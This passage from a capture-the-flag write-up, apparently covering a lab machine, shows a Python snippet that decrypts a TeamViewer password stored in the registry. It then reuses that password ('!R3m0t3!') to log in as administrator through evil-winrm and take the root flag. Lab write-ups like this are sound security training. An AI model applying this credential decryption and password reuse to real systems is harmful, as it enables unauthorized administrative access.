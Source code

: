 ```python
hex_str_cipher = "FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B"			# output from the registry

ciphertext = binascii.unhexlify(hex_str_cipher)
raw_un = AESCipher(key).decrypt(iv, ciphertext)
print(hexdump.hexdump(raw_un))
password = raw_un.decode('utf-16')
print(password)
```

![!R3m0t3!](/assets/img/writeups/remote_teamviewpassword.png)

We have the password for TeamViewer. Thinking that maybe they use the same password for all the remote management tools, we attempt to use it to login as administrator to WinRm that is running on port 5985. Using the tool *evil-winrm* 

![evilwin](/assets/img/writeups/remote_evilwinrm.png)

We are met with success and have gained access to the root.txt